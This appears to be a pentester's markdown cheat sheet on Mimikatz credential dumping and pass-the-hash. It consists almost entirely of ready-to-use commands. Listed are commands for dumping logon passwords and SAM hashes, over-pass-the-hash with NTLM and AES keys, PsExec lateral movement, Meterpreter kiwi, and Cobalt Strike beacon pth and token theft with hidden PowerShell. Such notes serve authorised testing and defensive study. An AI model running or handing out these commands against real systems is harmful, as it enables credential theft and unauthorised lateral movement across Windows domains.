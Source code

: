 # Mimikatz

## 01 - Manual

### 1.1 - Dump the hashes

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::sam
```

### 1.2 - Over Pass the Hash

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:<commands>

mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /aes256:<aes256_hash> /ntlm:<nt_hash> /aes128:<aes128_hash> /run:<commands>

C:\> PsExec64.exe \\<IP> cmd.exe
```

## 02 - Metasploit

### 2.1 - Kiwi

```
meterpreter > load kiwi

meterpreter > kiwi_cmd <mimikatz_commands>
```

## 03 - Havoc

TODO: Demonstrate pass the hash in Havoc

## 04 - Cobalt Strike

```
beacon> pth <username> aad3b435b51404eeaa3b435b51404ee:<NT> <commands>

beacon> pth Administrator aad3b435b51404eeaa3b435b51404ee:<NT> powershell -w hidden

beacon> steal_token <powershell_process_id>
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)